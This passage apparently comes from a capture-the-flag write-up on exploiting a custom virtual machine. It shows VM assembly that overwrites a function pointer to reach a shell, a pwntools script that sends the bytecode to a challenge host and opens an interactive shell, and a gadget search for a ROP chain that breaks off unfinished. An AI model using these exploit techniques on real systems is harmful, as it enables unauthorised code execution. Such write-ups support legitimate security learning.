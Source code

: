 ```python
# Overwrite function pointer
LOADI R4, #0x9010
STORE [R1], R4

# Write native shellcode bytes
# (shellcode to execute system("/bin/sh"))

# Trigger the overwritten function pointer
SYSCALL #1
"""

def exploit():
    assembler = VMAssembler()
    bytecode = assembler.assemble(exploit_asm)

    print(f"[*] Generated {len(bytecode)} bytes of VM bytecode")

    # Connect to target
    from pwn import *

    p = remote('challenge.example.com', 1337)

    # Send bytecode
    p.sendlineafter(b'Firmware size: ', str(len(bytecode)).encode())
    p.send(bytecode)

    print("[*] Firmware uploaded, triggering exploit...")

    # The VM should execute our code and give us a shell
    p.interactive()

if __name__ == '__main__':
    exploit()
```

## Alternative Approach: ROP in VM Space

For more elegant exploitation, use ROP gadgets within the VM's own code:

```python
# Find ROP gadgets in the VM firmware
def find_gadgets(firmware):
    gadgets = {}

    # Search for useful instruction sequences
    for i in range(len(firmware) - 8):
        # Look for: LOAD R1, [R2]; RET sequence
        if firmware[i:i+4] == b'\x10\x01\x02\x00':
            if firmware[i+4:i+8] == b'\x31\x00\x00\x00':
                gadgets['load_ret'] = i

        # Look for: STORE [R1], R2; RET sequence
        if firmware[i:i+4] == b'\x11\x01\x02\x00':
            if firmware[i+4:i+8] == b'\x31\x00\x00\x00':
                gadgets['store_ret'] = i

    return gadgets

# Build ROP chain using found gadgets
def build_rop_chain(gadgets):
    rop_chain = [
        gadgets['load_ret'],   # Load system address
        0xF008,                # From function pointer location
```